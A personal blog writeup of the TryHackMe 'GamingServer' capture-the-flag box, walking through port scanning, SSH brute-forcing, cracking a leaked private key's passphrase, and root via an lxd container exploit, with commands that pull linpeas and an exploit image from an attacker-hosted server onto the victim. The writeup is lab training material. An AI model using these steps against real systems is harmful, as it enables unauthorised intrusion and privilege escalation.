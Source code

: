 ```yaml
---
permalink: /GamingWriteup.html
---
```

*[Back To Main Page](https://exhalior.github.io)*
![thumbnail](https://i.imgur.com/lZRim5g.jpg = 100x100)

## Tryhackme Gaming Server Writeup.

This writeup is on the [Tryhackme GamingServer](https://tryhackme.com/room/gamingserver) machine.
It is an easy level machine, and is described as: > An Easy Boot2Root box for beginners

This is how I got both flags.

## Enumerating.

First, I started off with a simple nmap scan.

```nmap -sC -sV -v -oA gamingserver *machine_ip*```

This showed me that there were two ports open on the machine, port 22 for *SSH* and port 80 for *HTTP*

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Since there was a webpage, I directed my attention there first. 
Simply checking the source of the websites index page showed a comment at the bottom referring to a user named *john*
I ran hydra in the background to attempt to bruteforce his password, but nothing came up.

```hydra -l john -P *path to wordlist* *machine_ip* ssh```

Running gobuster using the common.txt wordlist from dirb revealed a /secret directory and an /uploads directory.
The /secret directory seemed out of place, so I checked there first.

![Secret Page](https://i.imgur.com/FYrdjNd.png)

In the /secret index there was a single file named *"SecretKey"* and opening it revealed a private ssh key.
I copied it to my folder and gave it the right permissions.

```chmod 600 SecretKey```

Under the folder /uploads there were a few files and a wordlist which I assumed would be for bruteforcing something. So I saved it to my machine.

![wordlist](https://i.imgur.com/BoiE8ui.png)

Simply ssh'ing into the machine under *John* prompted us with a password for the ssh key. No problem.
John the ripper should be good enough for this job!
First i used ssh2john to format the key into something john the ripper can read.

```/usr/share/john/ssh2john.py SecretKey > keyhash```

Next, I ran the wordlist I found earlier in the uploads directory on the hash.

```john keyhash -w=dict.lst```

Boom! Found it!

![password](https://i.imgur.com/gvMwN2e.png)

## Getting User.txt

Now I have a way to access the machine, we can use ssh to log in as the *John* user.

```ssh -i SecretKey john@machine_ip```

When prompted for a passphrase, we enter the one found by john the ripper earlier.

Now all we have to do is *ls* and we have the user.txt

![lstouser](https://i.imgur.com/QWbXKr5.png)

## Privesc to Root.txt

This one stumped me for a second, I haven't heard of this privesc until now,
so finding it was more tedious than it should've been.

Let's run linpeas on the machine to find any privesc vectors.
First, we create a python server in the folder where we have our [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) script stored.

```*ATTACKER MACHINE* sudo python3 -m http.server```

Then we download the script on the victim machine

```*VICTIM MACHINE* wget attacker_ip:8000/linpeas.sh```

From there it's as simple as running chmod and executing the script.

```
chmod +x linpeas.sh
./linpeas.sh
```

Once linpeas is finished, we need to find anything red, or highlighted. Highlighted items are 99% of the time privesc vectors, and red items are ones that should
be checked out if none of the highlighted items work.
Here, we can see that root and lxd are highlighted.

![linpeasr](https://i.imgur.com/ZcRVxi2.png)

Initially I thought it would be as simple as running *sudo su* and gaining root privs, but that just led me down a rabbit hole of scouring the machine for johns
real credentials.
After a while, I realised that the lxc item was the privesc vector I was supposed to be focusing on, so after a bit of googling I found [This Privesc](https://www.exploit-db.com/exploits/46978) on exploit-db
To use this privesc, we must first download a build script on our attacker machine and make a tar.gz file to be uploaded to the victim machine.
This is done with:

```wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine```

After that, we compile/build it with:

```sudo bash build-alpine```

After running this commmand, we should have an alpine.tar.gz in our attacker directory. This will be uploaded to the victim machine.
As before with linpeas, we must start a python server on our attacker machine.

```*ATTACKER MACHINE* sudo python3 -m http.server```

And upload it to the victim.

```*VICTIM MACHINE* wget attacker_ip:8000/alpine-v3.12-x86_64-20200831_1414.tar.gz```

The exploit then requires that we run a script to complete the privesc, it's on the exploit-db page linked above.
What I did was create an sh script with:

```nano exploit.sh``` 

And copy paste the script from the exploit-db page to the script on the victims machine, and then chmod +x the script to make it executable.

```chmod +x exploit.sh```

Once we run the script, we should achieve the privesc and become root.

```./exploit.sh -f alpine-v3.12-x86_64-20200831_1414.tar.gz```

Boom! We have achieved root privileges!!

![root](https://i.imgur.com/blIf2iY.png)

Once we cd to /mnt/root/root we can *ls* and find our sweet, sweet, root.txt

![rootxt](https://i.imgur.com/uEVyjAm.png)

## Thank you for reading!

This was a fun machine, thank you to the creator and thank you to YOU! for reading my writeup.
Until next time. :)
Stay sane.


<script>var clicky_site_ids = clicky_site_ids || []; clicky_site_ids.push(101275407);</script>
<script async src="//static.getclicky.com/js"></script>



